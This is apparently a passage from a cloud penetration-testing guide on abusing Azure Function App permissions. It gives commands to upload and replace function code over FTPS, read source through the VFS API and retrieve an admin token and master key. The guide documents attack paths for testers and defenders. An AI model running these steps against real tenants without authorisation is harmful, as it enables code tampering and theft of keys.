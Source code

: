 The settings values contains the **AccountKey** of the storage account storing the data of the function app, allowing to control that storage account.

- **Method FTP**

Connect to the FTP server using:

```bash
# macOS install lftp
brew install lftp

# Connect using lftp
lftp -u '<username>','<password>' \
     ftps://waws-prod-yq1-005dr.ftp.azurewebsites.windows.net/site/wwwroot/

# Some commands
ls # List
get ./function_app.py -o /tmp/ # Download function_app.py in /tmp
put /tmp/function_app.py -o /site/wwwroot/function_app.py # Upload file and deploy it
```

_Note that the **FTP username** is usually in the format \<app-name>\\$\<app-name>._

### `Microsoft.Web/sites/hostruntime/vfs/read`

This permission allows to **read the source code** of the app through the VFS:

```bash
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/hostruntime/admin/vfs/function_app.py?relativePath=1&api-version=2022-03-01"
```

### `Microsoft.Web/sites/functions/token/action`

With this permission it's possible to [get the **admin token**](https://learn.microsoft.com/ca-es/rest/api/appservice/web-apps/get-functions-admin-token?view=rest-appservice-2024-04-01) which can be later used to retrieve the **master key** and therefore access and modify the function's code.

However, in my lasts checks no token was returned, so it might be disabled or not working anymore, but here is how you would do it:

```bash
# Get admin token
az rest --method GET \
  --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/functions/admin/token?api-version=2024-04-01"

# Get master key
curl "https://<app-name>.azurewebsites.net/admin/host/systemkeys/_master" \
  -H "Authorization: Bearer <token>"
```

### `Microsoft.Web/sites/config/write`, (`Microsoft.Web/sites/functions/properties/read`)
